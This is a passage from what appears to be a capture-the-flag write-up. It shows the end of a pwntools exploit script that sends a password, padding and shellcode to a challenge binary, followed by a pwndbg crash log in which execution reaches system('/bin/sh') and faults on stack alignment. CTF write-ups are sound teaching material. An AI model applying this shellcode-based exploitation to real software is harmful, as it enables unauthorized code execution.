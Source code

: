 ```py
    return payload

shellcode = shellcode()
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+shellcode)
print(len(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+shellcode))
```

```asm wrap=false showLineNumbers=false

Program received signal SIGSEGV, Segmentation fault.
Download failed: Invalid argument.  Continuing without source file ./stdlib/../sysdeps/posix/system.c.
0x00007ee8ba45843b in do_system (line=0x7ee8ba5cb42f "/bin/sh") at ../sysdeps/posix/system.c:148
warning: 148	../sysdeps/posix/system.c: No such file or directory
Download failed: Invalid argument.  Continuing without source file ./stdlib/../sysdeps/posix/system.c.
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────
*RAX  0x7ee8ba60ad58 (environ) —▸ 0x7fff23b28838 —▸ 0x7fff23b29c6e ◂— 'HYDE_DATA_HOME=/home/hyder/.local/share/hyde'
*RBX  0x7fff23b285b8 ◂— 0xc /* '\x0c' */
*RCX  0x7fff23b285b8 ◂— 0xc /* '\x0c' */
 RDX  0
*RDI  0x7fff23b283a4 ◂— 0xba526b5400007ee8
*RSI  0x7ee8ba5cb42f ◂— 0x68732f6e69622f /* '/bin/sh' */
*R8   0x7fff23b283e8 ◂— 0
*R9   0x7fff23b28838 —▸ 0x7fff23b29c6e ◂— 'HYDE_DATA_HOME=/home/hyder/.local/share/hyde'
*R10  8
*R11  0x246
*R12  0x7ee8ba5cb42f ◂— 0x68732f6e69622f /* '/bin/sh' */
 R13  0
 R14  0
 R15  0x7ee8ba7ab000 (_rtld_global) —▸ 0x7ee8ba7ac2e0 ◂— 0
*RBP  0x7fff23b28418 ◂— 0
*RSP  0x7fff23b28398 —▸ 0x7ee8ba76bd20 —▸ 0x7ee8ba773c01 ◂— 'GLIBC_2.35'
*RIP  0x7ee8ba45843b (do_system+363) ◂— movaps xmmword ptr [rsp + 0x50], xmm0
────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────
 ► 0x7ee8ba45843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fff23b283e8] not aligned to 16 bytes>
   0x7ee8ba458440 <do_system+368>    call   posix_spawn@@GLIBC_2.15     <posix_spawn@@GLIBC_2.15>
 
   0x7ee8ba458445 <do_system+373>    mov    rdi, rbx
   0x7ee8ba458448 <do_system+376>    mov    r12d, eax
   0x7ee8ba45844b <do_system+379>    call   posix_spawnattr_destroy     <posix_spawnattr_destroy>
 
   0x7ee8ba458450 <do_system+384>    test   r12d, r12d
   0x7ee8ba458453 <do_system+387>    je     do_system+632               <do_system+632>
 
   0x7ee8ba458459 <do_system+393>    mov    dword ptr [rsp + 8], 0x7f00
   0x7ee8ba458461 <do_system+401>    xor    eax, eax                                  EAX => 0
   0x7ee8ba458463 <do_system+403>    mov    edx, 1                                    EDX => 1
   0x7ee8ba458468 <do_system+408>    lock cmpxchg dword ptr [rip + 0x1ad070], edx
──────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────
00:0000│ rsp   0x7fff23b28398 —▸ 0x7ee8ba76bd20 —▸ 0x7ee8ba773c01 ◂— 'GLIBC_2.35'
01:0008│ rdi-4 0x7fff23b283a0 ◂— 0x7ee8ffffffff
02:0010│-070   0x7fff23b283a8 —▸ 0x7ee8ba526b54 (sbrk+164) ◂— test eax, eax
03:0018│-068   0x7fff23b283b0 —▸ 0x7fff23b283e0 —▸ 0x2111d2a0 ◂— 'Goodbye\n-------------------------------------------------\n'
04:0020│-060   0x7fff23b283b8 ◂— 0x290
05:0028│-058   0x7fff23b283c0 —▸ 0x7ee8ba603ac0 (main_arena) ◂— 0
```